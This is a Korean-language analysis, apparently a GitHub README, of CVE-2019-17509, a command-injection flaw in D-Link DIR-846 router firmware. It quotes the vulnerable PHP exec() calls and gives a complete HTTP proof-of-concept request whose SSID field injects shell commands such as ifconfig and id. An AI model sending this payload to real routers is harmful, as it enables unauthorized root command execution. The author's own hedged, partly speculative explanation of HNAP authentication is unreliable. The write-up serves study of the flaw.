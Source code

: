 # CVE-2019-17509 취약점

`아래의 내용들은 긁어모은 정보들을 제 나름대로 해석하고 이해한거라 사실과 거리가 멀 수도 있습니다.`


### 0. 요약

`D-Link사의 Dir-846 제품의 firmware, 100A35에서 RCE(Remote Code Execution) 취약점이 발견되었다.`  

### 1. 대상

문제의 제품 : **D-Link의 Dir 846 이라는 router**


![router](dir-846.jpg)
[링크](https://www.dlink.com.br/produto/roteador-dir-846-gigabit-wi-fi-ac1200/)


### 2. 취약점


해당 router 안에 있는 `100A35`라는 firmware에서 취약점이 발견되었다. 다음과 같이 두 가지의 취약점이 발견 되었는데 비슷한 취약점이다.

![vul_846.jpg](vul_846.png)

그 중 조금 더 복잡한 `CVE-2019-17509` 취약점을 살펴보자. 해당 CVE는 다음과 같이 취약점을 설명하고 있다. 

>D-Link DIR-846 devices with firmware 100A35 allow remote attackers to execute arbitrary OS commands as root by leveraging admin access and sending a /HNAP1/ request for SetMasterWLanSettings with shell metacharacters to /squashfs-root/www/HNAP1/control/SetMasterWLanSettings.php.


해당 Firmware 에서는 소형화되고 최적화된 linux file system인 `squashFS` 를 사용하는 듯 하였다. 그 파일 시스템안에 `/squashfs-root/www/HNAP1/control/SetMasterWLanSettings.php` 를 살펴보면 다음과 같이 parameter로 받는 값이 제대로 parsing이 안 되는 것을 확인할 수 있었다.   

```php            
          .....
11        $data["ssid0"] = trim($option["wl(1).(0)_ssid"]);
          .....
14        $data["ssid1"] = trim($option["wl(0).(0)_ssid"]);
          .....
70        $unicode_2 = $data["ssid1"];
71        exec("ssid_code set B2 2 ssid_tmp1 '" . $unicode_2 . "'");
72        $unicode_5 = $data["ssid0"];
73        exec("ssid_code set B5 0 ssid_tmp2 '" . $unicode_5 . "'", $str, $status2);
          .....
```

위를 보면 trim(), exec()가 쓰였다.
- trim() 은 앞뒤에 있는 공백문자들(space, \t, etc...)을 잘라준다.
- exec() 은 외부 프로그램을 실행기키는 명령어이다.

**ex)**
![ex_exec](ex_exec.png)
`SetMasterWLanSettings.php`의 코드는 허용되지 않는 값을 제외시켜주 않아 exec() 으로 공격자가 원하는 명령어를 실행시킬 수도 있다. 아래의 PoC를 보면 이해가 더 쉬울 것이다.

다음은 해당 취약점에 대한 PoC 이다. 

```json
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: D34C44D78E0DA072AE4E94B67361E182 1534384217127
Referer: http://192.168.0.1/account.html
Content-Length: 110
Cookie: loginpass=202cb962ac59075b964b07152d234b70; PHPSESSID=e5c635efde382dd2dd21a62b6649278f; uid=ac08Gage; PrivateKey=D7D42B5B2E20D9F30C0D44920DC56A58
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{
    "SetMasterWLanSettings":
    {
    "wl(0).(0)_enable":"1",
    "wl(0).(0)_ssid":"2.4'&&ifconfig>'/www/a.txt",
    "wl(0).(0)_preshared_key":"aXJrZXJPZ2dNVEl6TkRVMk56Zz0=",
    "wl(0).(0)_crypto":"aestkip",
    "wl(1).(0)_enable":"0",
    "wl(1).(0)_ssid":"5.0",
    "wl(1).(0)_preshared_key":"aXJrZXJPZ2c=",
    "wl(1).(0)_crypto":"none"
    }
}
```

다음과 같은 request를 `SetMasterWLanSettings.php`에서 받을 수 있도록 해준다면 해당 시스템에서 다음 request를 실행할 때, `ifconfig`의 결과가 `/www/a.txt`에 저장될 것이다. 

다음을 단계별로 설명하자면 다음과 같다. 

```php
$data["ssid1"] = trim($option["wl(0).(0)_ssid"]);
==> 
$data["ssid1"] = trim("2.4'&&ifconfig>'/www/a.txt");
------------------------------------------------------
exec("ssid_code set B2 2 ssid_tmp1 '" . $unicode_2 . "'");
==> 
exec("ssid_code set B2 2 ssid_tmp1 '" . 2.4'&&ifconfig>'/www/a.txt . "'");
=>
exec("ssid_code set B2 2 ssid_tmp1 " . 2.4&&ifconfig>/www/a.txt . "");
```

--- 

이는 다음과 같이 ssid의 입력란에 `2.4'&&id>'/www/a.txt`와 같이 명령어를 입력하면 RCE이 가능하다. 

![hacking](hacking.PNG)

다음 명령어가 시스템 안에서 돌아가는 이유는 D-Link 사에서는 `HNAP(Home Network Administration Protocol)` 를 사용하는데 이는 attacker가 사용자 인증과정을 지나치게 한다.  자세한 방법과 이유는 잘 모르겠지만 다음과 같은 내용을
[HNAP_Protocol.pdf](HNAP_Protocol.pdf) 에서 찾았다. 다음은  `page 1`의 `Brief Summary of the Invention` 의 내용을 발췌한 것이다. 

>With some examples of the invention, the network device management tool may alternately or additionally permit a client running on a seperate computing device to reliably obtain information about the network device hosting the network device management tool, and then configure the network device for use on the network.

D-Link 사에서 client에 다음과 같이 configure 권환을 준 것이 원인이 아닌가 한다.


### [출처]

소스코드, PoC 
- https://github.com/dahua966/Routers-vuls/blob/master/DIR-846/vuls_info.md

CVE 정보 
- https://www.cvedetails.com/cve/CVE-2019-17509/

- http://www.wins21.co.kr/mobile/blog/blog_view.html?t=31&num=194

HNAP 

- https://dl.packetstormsecurity.net/papers/attack/dlink_hnap_captcha.pdf

- https://web.archive.org/web/20130706175454/http://www.sourcesec.com/2009/05/12/d-link-captcha-partially-broken/

- [HNAP_Protocol.pdf](HNAP_Protocol.pdf)
